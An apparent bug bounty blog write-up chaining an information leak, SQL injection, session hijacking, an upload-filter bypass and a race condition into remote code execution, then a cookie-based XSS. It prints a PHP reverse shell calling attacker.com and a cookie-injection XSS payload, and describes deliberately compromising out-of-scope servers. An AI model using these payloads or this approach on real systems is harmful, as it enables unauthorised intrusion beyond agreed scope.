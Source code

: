 ```yaml
---
layout: post
title: Exploiting Cookie Based XSS by Finding RCE
excerpt: "While doing Bug Bounty Hunting, I found a Cookie Based XSS Vulnerability on a website. Cookie Based XSS basically is a Self XSS. It will be very unfortunate if the findings were reported and only got Very Low Severity, which for the severity, there was no Bounty or Points given."
tags: [bug hunting, hacking, lfd, sql injection, rce, xss]
categories: [bug hunting]
comments: true
image:
  feature: df2e430d20474a0262177c6b7663106d-f.png
---
```


بسم الله الرحمن الرحيم


> When doing penetrating on this target, I collaborated with [YoKo Kho](https://medium.com/@YoKoKho?source=post_page-----9a4065368ba3----------------------) to get the highest privileges. In this paper, you may find a little similarity with [his trick](https://medium.com/bugbountywriteup/race-condition-that-could-result-to-rce-a-story-with-an-app-that-temporary-stored-an-uploaded-9a4065368ba3). But in the real case, what we write is a different feature. If you have read his writing, this story is the prequel of it.


While doing Bug Bounty Hunting, I found a **Cookie Based XSS Vulnerability** on a website. Cookie Based XSS is a Self XSS. It will be miserable if the findings were reported and only got Very Low Severity, which for the severity, there was no Bounty or Points given.

The scope of this program is limited, but the target domain has lots of subdomains. The first thing that comes to mind is looking for XSS Vulnerabilities in target subdomains that are **out of scope** to trigger Cookie Based XSS in **in-scope** target domains, so by that severity will increase at least to High or Medium.

#### I. Information Disclosure

After hunting for some time, no subdomains that have XSS vulnerabilities were found either. Until when doing a _bruteforce_ directory on one of the subdomains, I found an interesting file.

```
https://redacted.com/redacted/redacted/_notes/dwsync.xml
```

The `dwsync.xml` file is a file generated by Dreamweaver. Where the file contains information related to what files are in the website directory.

![Figure 1 — dwsync.xml File](/assets/df2e430d20474a0262177c6b7663106d-1.png)


#### II. SQL Injection

By default, to access the website requires credentials, and we cannot create an account on the site. As explained above, through the `dwsync.xml` file, we can get information about the files on the target website. So I tried to access one of the files; for example, I decided to access the `redacted.php` file.

![Figure 2 — redacted.php File](/assets/df2e430d20474a0262177c6b7663106d-2.png)

We can see an error message appears: `Undefined index: ver,` which means on that page there is a variable `ver` that has not been defined. For that, I also changed the URL to something like this:

```
https://redacted.com/dir/redacted.php?ver=1
```

And the page display changes, but only displays the number `1`.

![Figure 3 — redacted.php with ver variable](/assets/df2e430d20474a0262177c6b7663106d-3.png)

Don't know what the meaning of number 1 is, that number is also not a reflection of the value I entered in the `ver` parameter above. But seeing the parameter in the URL, my hand felt _itchy_ to add the symbol `" to that parameter. And the result …

![Figure 4 — SQL Error Message](/assets/df2e430d20474a0262177c6b7663106d-4.png)

It looks like the error message looks very familiar. Without waiting long, I immediately tried to do `SQL Injection` with `SQLmap.` And here is the list of databases obtained:

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] redacted_db
[*] tmp
```

#### III. Authentication Bypass

From the `SQL Injection` vulnerability, I tried to upload shell to the target server, but it's failed. So I must be able to login to the website using the data in the database.

After trying to extract the `redacted_db` database, a table named `user_tbl` was found. In the table, there is information related to the user on the target website. But unfortunately, the user's password is hashed using `md5,` and when trying to crack, nothing works.

Not giving up until then, I went back to look for tables that might be used. So I arrived at a table called `session_tbl.` In the table, there are only three columns, `session_id,` `user_id,` and `session.`

From there, I realized that the table contained active sessions from the website user. I searched for the user with the highest role level in the `user_tbl` table and searched for the session in the `session table`. Then I tried to enter the session value obtained from the database into the `Cookie` website with the session name. And finally, I successfully login to the site.


#### IV. Unrestricted File Upload

Long story short, after being able to log into the target website, I am looking for other vulnerabilities that can be exploited. On the website, there is a feature for uploading files. Of course, this is a feature that we must test.

![Figure 5 — File Upload Form](/assets/df2e430d20474a0262177c6b7663106d-5.png)

I also tried to upload a file with the `.phtml` extension, but the file was rejected and could not be uploaded.

![Figure 6 — File Rejected](/assets/df2e430d20474a0262177c6b7663106d-6.png)

But I suspect the filter only runs on the client-side. This means that there is potential for bypasses with the help of tools such as Burpsuite. So I tried uploading the file again, this time with the .jpg extension, then in Burpsuite Intercept, I change the extension to `.phtml.`

Here's the screenshot when I re-upload the file using Repeater.

![Figure 7 — File Uploaded](/assets/df2e430d20474a0262177c6b7663106d-7.png)

After using the method above, the file was successfully uploaded. Seeing the response that appears, the file is stored in `AWS,` not on the target website.

```
https://storage-redacted.s3-ap-southeast-1.amazonaws.com/redacted_dir/redacted_file.phtml
```

#### V. Remote Code Execution

Seeing the uploaded file stored in `AWS,` not much can be done on that file because our target is the webserver, not the `AWS` server. So I also tried to understand the response displayed by the target server.

```
/var/www/html/redacted/../redacted****/var/www/html/redacted/../redacted/info.phtml<br>Uploading part 2 of /var/www/html/redacted/../redacted/info.phtml.
Uploaded /var/www/html/redacted/../redacted/info.phtml to https://storage-redacted.s3-ap-southeast-1.amazonaws.com/redacted_dir/redacted_file.phtml.
SUCCESS 52673, 98235
```

From the response above, I assume that besides being stored on AWS, uploading files will be stored on the target website in the **redacted** directory. So I also tried to visit the following URL:

```
https://redacted.com/redacted/redacted/info.phtml
```

And the file was not found.

![Figure 8 — File Not Found](/assets/df2e430d20474a0262177c6b7663106d-8.png)

But I still assume it doesn't make sense if the response displays a **redacted** directory if it has nothing to do with the file that we uploaded. What if what happens is, the file that we upload is temporarily stored in the **redacted** directory, then after some time, it is thrown into `AWS` as a storage place.

If my assumption is correct, then our file will be on the server for a second before uploading it to `AWS.` And we must catch the file before sending it to the `AWS` server.

To test it, I use _Burpsuite Intruder_ and try to make a `GET` Request continuously to the URL file in the **redacted** directory.

![Figure 9 — File Found](/assets/df2e430d20474a0262177c6b7663106d-9.png)

And sure enough, for some time, the file was on the target server _(HTTP Code 200)_, and not long after that file disappeared _(HTTP Code 404)_ indicating the file has been moved to `AWS.`

So by doing the same thing, we can upload _PHP Reverse Shell_ to get the shell from the target website.

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/1337 0>&1'");
```

![Figure 10 — Pwned](/assets/df2e430d20474a0262177c6b7663106d-10.png)

And finally, I also got access to the target server.


#### VI. The XSS

Back to the first of the story, after getting shell access, I placed an `HTML` file containing javascript to trigger `XSS` on websites that were in the bounty scope.

With HTML code like the this:

```html
<script>document.cookie = "evil=%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E@;path=/;domain=.redacted.com;";</script>
```

We can create a cookie named **evil** on the `redacted.com` domain with the value containing the XSS Payload `<img src=x onerror=alert(1)>`. The cookie will be loaded, and XSS will be triggered when you access the in-scope bounty domain.

![Figure 11 — Pwned](/assets/df2e430d20474a0262177c6b7663106d-11.gif)

Getting full server access on an **out of scope** website to trigger XSS on an **in-scope** website is rather ironic indeed. But that's Bug Hunting, as much as possible we must be able to convince the Program Owner that the vulnerability we find can be exploited and have a significant impact.

On that website, I found several Cookie Based XSS worth $5000.

#### VII. Conclusion

Here are some noob tips that you can do when doing Bug Hunting:

- When finding vulnerability with low severity, don't report it immediately. Look for possibilities that can be used to increase the severity.
- If you find a website with a login page without a registration feature, try to **Bruteforce** it using _dirsearch_, _dirbuster_, etc. Websites that only display a login page and no registration feature indicate that only an internal team can access the website. Usually, such websites have lots of bugs.
- If you find **SQL Injection** and a password is hashed on the database, try to visit another table, there might be something juicy there.
- If you find the upload form and you cannot upload the shell. Try to bypass it by uploading via Burpsuite Repeater, changing extensions, mime type, etc. After the file has been uploaded successfully, learn the flow of how they save the file.
